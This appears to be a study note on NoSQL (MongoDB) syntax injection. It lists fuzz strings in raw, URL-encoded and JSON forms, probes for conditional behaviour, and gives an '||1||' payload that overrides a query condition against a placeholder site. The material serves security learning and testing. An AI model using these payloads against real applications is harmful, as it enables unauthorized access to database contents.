 
## syntax injection 
this type is very rare
#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```json

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### **Determining which characters are processed**
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

#### **Confirming conditional behavior**
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
```
'||1||'    => payload

https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

code in backend

this.category == 'fizzy'||'1'=='1'
```
